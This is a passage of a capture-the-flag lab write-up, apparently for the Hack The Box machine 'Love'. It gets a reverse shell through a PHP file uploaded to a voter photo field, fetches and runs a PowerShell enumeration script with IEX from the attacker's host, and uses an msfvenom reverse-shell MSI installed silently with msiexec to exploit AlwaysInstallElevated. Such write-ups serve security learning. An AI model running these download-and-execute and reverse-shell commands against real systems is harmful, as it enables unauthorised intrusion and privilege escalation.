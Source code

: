 We upload shell.php to the photo field by editing the voter we just created and we get a reverse shell.

{% highlight bash %}

$ nc -lvnp 9595
listening on [any] 9595 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 52794
whoami
love\phoebe

{% endhighlight %}

We have the user account.

## System User

We upgrade our shell to a nishang.  Now we are running powershell. 

Running JAWS we see that Always InstallElevated is enabled on the machine.

{% highlight powershell %}
PS C:\xampp\htdocs\omrs\images> IEX(New-Object Net.webclient).downloadString('http://10.10.14.5/jaws-enum.ps1')

<-----snip----->

-----------------------------------------------------------                                                                                                                                                                                   
 AlwaysInstalledElevated Registry Key      
-----------------------------------------------------------                                                            
AlwaysInstallElevated enabled on this host!AlwaysInstallElevated enabled on this host!              
-----------------------------------------------------------  

<-----snip----->

{% endhighlight %}

On our machine we use msfvenom to generate a reverse shell in the msi format.

{% highlight bash %}

$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9258 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi

{% endhighlight %}

We set up nc listening on port 9258.
On the remote machine we download and execute AlwaysInstallElevated.msi using the below commands on the remote machine.

{% highlight powershell %}

PS C:\Users\Phoebe\Documents> $downL="http://10.10.14.5/AlwaysInstallElevated.msi"                                                                                                                                                            
PS C:\Users\Phoebe\Documents> $locA="C:\\Users\Phoebe\\Documents\\AlwaysInstallElevated.msi"                                                                                                                                                  
PS C:\Users\Phoebe\Documents> powershell “(New-Object Net.WebClient).DownloadFile($downL, $locA)” 

PS C:\Users\Phoebe\Documents> msiexec /quiet /qn /i AlwaysInstallElevated.msi  
{% endhighlight %}

